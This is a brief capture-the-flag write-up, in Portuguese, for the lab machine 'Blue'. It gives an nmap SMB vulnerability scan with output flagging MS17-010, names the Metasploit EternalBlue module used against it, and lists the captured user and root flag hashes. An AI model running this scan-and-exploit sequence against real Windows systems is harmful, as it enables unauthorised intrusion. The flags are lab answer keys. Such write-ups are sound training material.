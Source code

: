 # Blue WriteUp

## Scan e Enum

Comando: ```sudo nmap -sS -Pn 10.129.166.7 -script=smb-vuln* -v -oN scan.txt```

```
Nmap scan report for 10.129.166.7
Host is up (0.16s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Host script results:
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
|_smb-vuln-ms10-054: false

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Dec 27 09:36:23 2021 -- 1 IP address (1 host up) scanned in 126.31 seconds
```
A vulnerabilidade a ser explorada possui exploit no metasploit.

* Exploit:
```
exploit/windows/smb/ms17_010_eternalblue
```

* User Flag:
```
cd C:\Users\haris
type user.txt
4c546aea7dbee75cbd71de245c8deea9
```

* Root Flag:
```
cd C:\Users\Administrator
type root.txt
ff548eb71e920ff6c08843ce9df4e717
```
